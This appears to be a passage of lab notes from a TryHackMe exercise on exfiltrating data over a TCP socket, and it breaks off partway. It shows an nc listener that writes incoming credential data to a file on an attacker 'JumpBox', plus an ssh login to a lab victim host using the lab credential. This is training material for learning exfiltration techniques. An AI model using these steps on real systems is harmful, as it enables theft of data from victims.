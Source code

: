 ![](gitbook/cybersecurity/images/Pasted%20image%2020250516174541.png)

## Exfiltration using TCP socket

***

This task shows how to exfiltrate data over TCP using data encoding. Using the TCP socket is one of the data exfiltration techniques that an attacker may use in a non-secured environment where they know there are no network-based security products. If we are in a well-secured environment, then this kind of exfiltration is not recommended. This exfiltration type is easy to detect because we rely on non-standard protocols.

Besides the TCP socket, we will also use various other techniques, including data encoding and archiving. One of the benefits of this technique is that it encodes the data during transmission and makes it harder to examine.

The following diagram explains how traditional communications over TCP work. If two machines want to communicate, then one of them has to listen and wait for the incoming traffic. It is similar to how two people talk and communicate, where one of them is listening, and the other person is speaking.&#x20;

![Connection over TCP/port](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/9931b598f5757bbdfb74004a2a43fe16.png)

The diagram shows that two hosts communicate over TCP on port 1337 in the following steps:

1. The first machine is listening over TCP on port **1337**
2. The other machine connects to the port specified in step 1. For example, **nc 1.2.3.4 1337**
3. The first machine establishes the connection
4. Finally, the sending and receiving data starts. For example, the attacker sends commands and receives results.

Communication over TCP requires two machines, one victim and one attacker machine, to transfer data. Let's use our network environment to practice sending data over TCP. To establish communication over TCP, we require two machines: the victim1.thm.com machine is the victim and the JumpBox, jump.thm.com, is the attacker's machine.

First, we need to prepare a listener on the **JumpBox** on a port you specify. In our case, we choose port 8080.

Listening on portTCP/8080 in the JumpBox

```markup
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```

From the previous command, we used the nc command to receive data on port 8080. Then, once we receive the data, we store it in the /tmp/ directory and call it task4-creds.data as a filename.

Now let's connect to our victim machine that contains the data that needs to be transmitted using the following credential: thm:tryhackme. Note that to connect to the victim1 from the JumpBox, we can use the internal domain name as follows,

```markup
thm@jump-box$ ssh thm@victim1.thm.com
```

